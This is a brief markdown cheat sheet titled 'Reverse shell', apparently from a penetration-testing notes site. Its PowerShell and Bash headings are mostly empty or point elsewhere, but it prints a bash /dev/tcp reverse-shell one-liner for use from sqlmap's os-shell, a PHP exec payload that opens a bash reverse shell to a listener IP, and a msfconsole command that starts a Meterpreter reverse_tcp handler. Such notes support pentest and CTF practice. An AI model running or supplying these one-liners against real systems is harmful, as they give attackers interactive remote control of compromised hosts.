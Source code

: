 # Reverse shell

## Powershell Oneliner

## Bash reverse shell oneliner

Go to the mentioned chapter below

{% content-ref url="../web-applications/os-command-injection-rce.md" %}
[os-command-injection-rce.md](../web-applications/os-command-injection-rce.md)
{% endcontent-ref %}

From within sqlmap os-shell, using "bash -c"

```
bash -c "/bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1"
```

## PHP

```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.89/1234 0>&1'"); ?>
```

## Meterpreter oneliner

```
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.45.219;set LPORT 4444;run;"

```
